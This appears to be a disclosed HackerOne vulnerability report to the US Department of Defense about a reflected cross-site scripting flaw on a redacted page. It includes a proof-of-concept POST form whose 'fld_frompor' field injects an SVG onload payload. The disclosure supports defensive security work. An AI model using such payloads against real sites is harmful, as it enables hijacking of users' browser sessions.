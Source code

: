 # XSS Reflect to POST █████

## Report Details
- **Report ID**: 1003433
- **URL**: https://hackerone.com/reports/1003433
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-10-09T12:15:54.731Z
- **Disclosed**: 2020-11-23T18:05:32.578Z

## Reporter
- **Username**: ofjaaaah
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
#XSS to POST 

URL =  █████████


Good morning team DoD..
I located an XSS on the site. 
I hope to help team DoD more and more. Thank you


```html
<form action=█████████/WaterControl/shefgraph-historic.cfm?sid=BL110 method=POST><input type=hidden name="fld_graphrslow" value="Y"><input type=hidden name="fld_graphrslow" value="N"><input type=hidden name="Submit" value="View Graph"><input type=hidden name="fld_from1" value="01/01/2020"><input type=hidden name="fld_to1" value="12/31/2020"><input type=hidden name="fld_displaytype" value="S"><input type=hidden name="fld_type1" value="Plot"><input type=hidden name="fld_frompor" value="1&quot;&lt;!--&gt;&lt;Svg OnLoad=(confirm)(1)&lt;!--"><input type=hidden name="fld_topor" value="1231"><input type=hidden name="fld_year1" value="2020"><input type=hidden name="fld_year2" value="2020"><input type=hidden name="fld_mon1" value="01"><input type=hidden name="fld_day1" value="01"><input type=hidden name="fld_mon2" value="12"><input type=hidden name="fld_day2" value="31"><input type=hidden name="fld_param" value="HG"><input type=submit value=XSS></form>
```

## Impact

If an attacker can control a script that is executed in the victim's browser, then they can typically fully compromise that user. Amongst other things, the attacker can:

    Perform any action within the application that the user can perform.
    View any information that the user is able to view.
    Modify any information that the user is able to modify.
    Initiate interactions with other application users, including malicious attacks, that will appear to originate from the initial victim user.

## Attachments
No attachments
